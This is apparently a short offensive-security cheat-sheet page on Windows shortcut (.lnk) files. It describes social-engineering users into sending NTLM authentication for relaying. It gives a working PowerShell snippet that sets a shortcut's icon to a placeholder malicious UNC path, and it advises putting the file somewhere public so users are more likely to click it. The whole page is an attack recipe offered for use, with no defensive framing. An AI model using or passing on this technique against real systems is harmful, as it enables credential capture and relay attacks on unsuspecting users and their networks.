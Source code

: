 # Shortcut Files

---

## Social Engineering an NTLM Authentication for Relaying

Windows Shortcut (`.lnk`) files are rendered with an icon that can be specified with a UNC path, perfect for social engineering an NTLM authentication for relaying.

Create the `.lnk` file with the following PowerShell snippet.

```powershell
$wsh = new-object -ComObject wscript.shell
$shortcut = $wsh.CreateShortcut($PATH_TO_SAVE_SHORTCUT_AT)
$shortcut.IconLocation = "$MALICIOUS_UNC_PATH"
$shortcut.Save()
```

`$PATH_TO_SAVE_SHORTCUT_AT` should be publicly accessible for maximum liklihood of being clicked by a user.
